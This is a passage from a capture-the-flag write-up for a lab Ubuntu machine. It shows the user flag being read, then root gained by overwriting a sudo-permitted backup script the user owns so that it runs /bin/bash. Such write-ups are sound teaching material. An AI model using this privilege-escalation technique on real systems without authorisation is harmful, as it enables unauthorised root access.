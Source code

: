 ## User flag
Let's get the user.txt flag :
```
alex@ubuntu:~$ ls 
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt 
flag{*********************************}
```

## Privilege escalation
After having obtained a user access, I now try to get a root access in order to recover the root flag. <br>
I start by checking what the current user can run with sudo access :
```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
The command `sudo -l` indicates that the user `alex` can run `/etc/mp3backups/backup.sh` as root without entering a password :
```
alex@ubuntu:/etc/mp3backups$ ls -la
total 28
drwxr-xr-x   2 root root  4096 Dec 30  2020 .
drwxr-xr-x 133 root root 12288 Dec 31  2020 ..
-rw-r--r--   1 root root   339 Apr 26 11:21 backed_up_files.txt
-r-xr-xr--   1 alex alex  1083 Dec 30  2020 backup.sh
-rw-r--r--   1 root root    45 Apr 26 11:21 ubuntu-scheduled.tgz
```
The user `alex` is the owner of the file `backup.sh`. So I have the possibility to modify it. <br>
I modify the permissions of the file "backup.sh" by adding the write permission `+w` for the user who owns the file :
```
alex@ubuntu:/etc/mp3backups$ chmod +w backup.sh 
```

So, I can modify the `backup.sh` script and add a command to get a root shell :
```
alex@ubuntu:/etc/mp3backups$ echo '#!/bin/bash' > backup.sh
alex@ubuntu:/etc/mp3backups$ echo '/bin/bash' >> backup.sh
alex@ubuntu:/etc/mp3backups$ cat backup.sh 
#!/bin/bash
/bin/bash
alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh 
root@ubuntu:/etc/mp3backups# 
```
I get a root shell. So I can get the root flag : 
```
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt 
flag{******************************}
```
